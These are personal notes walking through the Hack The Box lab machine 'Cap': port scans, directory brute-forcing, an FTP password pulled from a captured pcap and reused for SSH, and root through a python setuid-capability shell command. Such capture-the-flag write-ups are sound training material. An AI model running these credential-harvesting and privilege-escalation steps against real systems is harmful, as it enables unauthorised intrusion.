

### Target: 10.10.10.245 - Cap
### Special Notes:
N/A

#### Start off with an nmap scan of tcp and udp:
```sudo nmap -sS -sV -Pn -p- -T4 -oN $target.nmap -vvv --min-rate 1000 $target```

```sudo nmap -sU $target --defeat-icmp-ratelimit -p- -oN $target.nmap -vvv --min-rate 1000 -T5```


#### Nmap TCP Results
```
└─# nmap -sS -sV -Pn -p- -T4 -oN $target.nmap -vvv --min-rate 1000 10.10.10.245
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-28 00:01 EDT
NSE: Loaded 47 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 00:01
Completed Parallel DNS resolution of 1 host. at 00:01, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 00:01
Scanning 10.10.10.245 [65535 ports]
Discovered open port 80/tcp on 10.10.10.245
Discovered open port 22/tcp on 10.10.10.245
Discovered open port 21/tcp on 10.10.10.245
SYN Stealth Scan Timing: About 45.57% done; ETC: 00:02 (0:00:37 remaining)
Completed SYN Stealth Scan at 00:02, 67.65s elapsed (65535 total ports)
Initiating Service scan at 00:02
Scanning 3 services on 10.10.10.245
Completed Service scan at 00:02, 6.33s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.10.245.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 00:02
Completed NSE at 00:02, 0.65s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 00:02
Completed NSE at 00:02, 0.86s elapsed
Nmap scan report for 10.10.10.245
Host is up, received user-set (0.18s latency).
Scanned at 2025-03-28 00:01:31 EDT for 76s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 75.69 seconds
           Raw packets sent: 67387 (2.965MB) | Rcvd: 67387 (2.695MB)
```

#### Nmap UDP Results
```

```

#### Notes
3 ports open.

21,22, and 80.

## 21/tcp
I will start with FTP. I will look for known exploits or logging in.

couldnt find a password there

## 80/tcp
found a Security Dashboard with an active session under the username Nathan.

Used feroxbuster to look around. Found a data folder by going to 'Security Snapshot'

```
└─# feroxbuster --url http://10.10.10.245:80/data 
                                                                                                                                                             
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.245:80/data
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
302      GET        4l       24w      208c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        4l       34w      232c http://10.10.10.245/data/static/js/scripts.js
404      GET        4l       34w      232c http://10.10.10.245/data/static/js/vendor/jquery-2.2.4.min.js
404      GET        4l       34w      232c http://10.10.10.245/data/static/css/responsive.css
404      GET        4l       34w      232c http://10.10.10.245/data/image/png
404      GET        4l       34w      232c http://10.10.10.245/data/static/css/font-awesome.min.css
404      GET        4l       34w      232c http://10.10.10.245/data/image/
404      GET        4l       34w      232c http://10.10.10.245/data/static/js/owl.carousel.min.js
404      GET        4l       34w      232c http://10.10.10.245/data/static/images/icon/favicon.ico
404      GET        4l       34w      232c http://10.10.10.245/data/static/css/styles.css
404      GET        4l       34w      232c http://10.10.10.245/data/static/js/
404      GET        4l       34w      232c http://10.10.10.245/data/static/js/metisMenu.min.js
404      GET        4l       34w      232c http://10.10.10.245/data/static/css/slicknav.min.css
404      GET        4l       34w      232c http://10.10.10.245/data/text/css
404      GET        4l       34w      232c http://10.10.10.245/data/static/js/bootstrap.min.js
404      GET        4l       34w      232c http://10.10.10.245/data/static/images/author/avatar.png
404      GET        4l       34w      232c http://10.10.10.245/data/static/js/line-chart.js
404      GET        4l       34w      232c http://10.10.10.245/data/static/images/
404      GET        4l       34w      232c http://10.10.10.245/data/static/css/typography.css
404      GET        4l       34w      232c http://10.10.10.245/data/static/js/popper.min.js
404      GET        4l       34w      232c http://10.10.10.245/data/static/images/icon/
404      GET        4l       34w      232c http://10.10.10.245/data/static/images/author/
404      GET        4l       34w      232c http://10.10.10.245/data/text/
404      GET        4l       34w      232c http://10.10.10.245/data/download/1
404      GET        4l       34w      232c http://10.10.10.245/data/static/js/pie-chart.js
404      GET        4l       34w      232c http://10.10.10.245/data/static/css/bootstrap.min.css
404      GET        4l       34w      232c http://10.10.10.245/data/static/css/
404      GET        4l       34w      232c http://10.10.10.245/data/download/
404      GET        4l       34w      232c http://10.10.10.245/data/static/css/owl.carousel.min.css
404      GET        4l       34w      232c http://10.10.10.245/data/static/js/jquery.slicknav.min.js
404      GET        4l       34w      232c http://10.10.10.245/data/static/
404      GET        4l       34w      232c http://10.10.10.245/data/static/js/vendor/
404      GET        4l       34w      232c http://10.10.10.245/data/static/css/metisMenu.css
404      GET        4l       34w      232c http://10.10.10.245/data/static/js/plugins.js
404      GET        4l       34w      232c http://10.10.10.245/data/static/js/jquery.slimscroll.min.js
404      GET        4l       34w      232c http://10.10.10.245/data/static/css/default-css.css
404      GET        4l       34w      232c http://10.10.10.245/data/static/css/themify-icons.css
404      GET        4l       34w      232c http://10.10.10.245/data/static/js/vendor/modernizr-2.8.3.min.js
200      GET      371l      993w    17144c http://10.10.10.245/data/1
404      GET        4l       34w      232c http://10.10.10.245/data/download/2
200      GET      371l      993w    17150c http://10.10.10.245/data/2
404      GET        4l       34w      232c http://10.10.10.245/data/download/0
200      GET      371l      993w    17147c http://10.10.10.245/data/0
200      GET      371l      993w    17144c http://10.10.10.245/data/01
200      GET      371l      993w    17150c http://10.10.10.245/data/02
200      GET      371l      993w    17147c http://10.10.10.245/data/00
200      GET      371l      993w    17147c http://10.10.10.245/data/000
200      GET      371l      993w    17144c http://10.10.10.245/data/001
200      GET      371l      993w    17150c http://10.10.10.245/data/002
200      GET      371l      993w    17147c http://10.10.10.245/data/0000
200      GET      371l      993w    17144c http://10.10.10.245/data/0001

```



downloaded 0.pcap and ran strings on it:
```
┌──(root㉿kali)-[/home/kali/targets/cap]
└─# strings 0.pcap | grep USER
USER nathan
                                                                                                                                                             
┌──(root㉿kali)-[/home/kali/targets/cap]
└─# strings 0.pcap | grep PASS
PASS Buck3tH4TF0RM3!
```
eventually found a FTP user and password.

which also worked on ssh:

```
┌──(kali㉿kali)-[~]
└─$ ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

```

GTFOBins:

If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

cp $(which python) .
sudo setcap cap_setuid+ep python

./python -c 'import os; os.setuid(0); os.system("/bin/sh")'

```
nathan@cap:~$ cp $(which python3) .
nathan@cap:~$ setcap cap_setuid+ep python3
unable to set CAP_SETFCAP effective capability: Operation not permitted
nathan@cap:~$ ls
linpeas.sh  python3  snap  user.txt
nathan@cap:~$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
Traceback (most recent call last):
  File "<string>", line 1, in <module>
PermissionError: [Errno 1] Operation not permitted
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root

```